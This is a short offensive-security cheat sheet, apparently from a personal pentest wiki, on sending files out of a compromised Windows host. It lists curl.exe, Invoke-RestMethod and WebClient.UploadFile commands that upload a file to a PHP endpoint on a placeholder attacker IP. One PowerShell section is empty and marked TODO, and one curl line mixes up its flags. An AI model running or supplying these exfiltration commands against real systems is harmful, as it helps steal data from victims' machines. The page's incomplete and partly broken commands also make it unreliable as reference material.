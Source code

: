 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - file-transfer-and-data-exfiltration
  - living-off-the-land
  - windows
---
```

# Upload

After you've setup a [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Linux/Network Ports/HTTP/Server/Setup#^2d615d|PHP web server]] to exfiltrate files.

## 01 - Command Prompt

```
C:\> curl.exe -F fileToUpload=@file.txt http[s]://<attacker_IP>/upload.php

C:\> curl.exe -T fileToUpload=@file.txt http[s]://<attacker_IP>/upload.php
```

## 02 - PowerShell

TODO: Fill this info

### 2.1 - `Invoke-WebRequest`

```
PS C:\> 
```

### 2.2 - `Invoke-RestMethod`

```
PS C:\> $body = Get-Content file.txt
Invoke-RestMethod -Uri http[s]://<attacker_IP>[:<PORT>] -Method PUT -Body $body
```

### 2.3 - `UploadFile`

```
PS C:\> New-Object Net.WebClient.UploadFile('http[s]://<attacker_IP>[:<PORT>]/upload.php', 'file.txt')
```